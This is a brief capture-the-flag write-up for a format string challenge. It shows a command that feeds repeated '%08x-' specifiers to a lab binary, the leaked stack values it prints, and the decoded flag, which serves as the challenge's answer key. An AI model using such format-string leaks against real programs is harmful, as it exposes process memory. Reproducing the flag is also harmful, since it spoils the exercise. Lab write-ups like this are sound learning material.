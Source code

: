 ### Run command
```
app-systeme-ch5@challenge02:~$ ./ch5 $(python -c 'print "%08x-"*20')
00000020-0804b160-0804853d-00000009-bffffc21-b7e1c4a9-bffffad4-b7fc4000-b7fc4000-0804b160-39617044-28293664-6d617045-bf000a64-0804861b-00000002-bffffad4-bffffae0-a8ebc700-bffffa40-
```

### Copy output and paste to print-flag.py and run script
```
python print-flag.py
````

=> flag is `Dpa9d6)(Epamd`